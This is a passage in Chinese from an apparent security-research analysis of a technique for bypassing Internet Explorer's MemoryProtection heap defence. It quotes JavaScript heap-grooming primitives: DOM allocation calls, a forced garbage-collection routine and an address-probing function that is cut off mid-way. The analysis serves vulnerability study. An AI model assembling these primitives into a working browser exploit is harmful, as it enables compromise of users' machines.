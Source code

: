 从技术实现角度上看，必须有相应“工具”才能完成上述流程。这些“工具”需要从逆向分析的过程中获得。实现上述流程需要具有的功能有：内存分配释放、清理等待列表、加载模块等。

内存分配和释放主要依靠三种方法。安全研究员通过调试发现，下述DOM操作相关的Javascript函数调用可用来分配内存【1】：

```
arr.push(document.createTextNode(string));

oDiv1.getElementsByClassName(string);

window.ref = oDiv1.getElementsByClassName(string);
```

第一种方法使用在内存准备阶段，通过这样的函数调用完成步骤1中的要求；第二种方法对应mshtml.dll中的CElement::Var_getElementsByClassName函数，可以用来申请内存空间，且由于没有存储函数返回值，该空间会直接被ProtectedFree释放；第三种方法存储函数的返回值，也就是保留了对其的引用，可用于把进程堆内存设置为确定的状态。结合使用三种方法可以满足整体流程对堆操作的要求。

代码中实现了myCollectGarbage函数来实施清空等待列表的操作，该函数充分利用MemoryProtection的特征来达到目的：

```
function myCollectGarbage() `{`

var i;

var j;

var ar;

for (j = 0; j &lt; 100; j++) `{`

CollectGarbage();

ar = [];

for (i = 0; i &lt; 1000; i++) `{`

ar.push(new Object());

`}`

ar = null;

CollectGarbage();

`}`

`}`
```

地址X的迭代过程需要调用testOneAddress函数：

```
testOneAddress = function(n) `{`

logMsg(0x100, "Starting testOneAddress");

try `{`

oDiv.getElementsByClassName(stringOfSizeA);

`}`catch (e) `{`

logMsg(0x102, "FAILURE: Unable to fill hole A (first fill).");

testResult = -1;

return;

`}`
```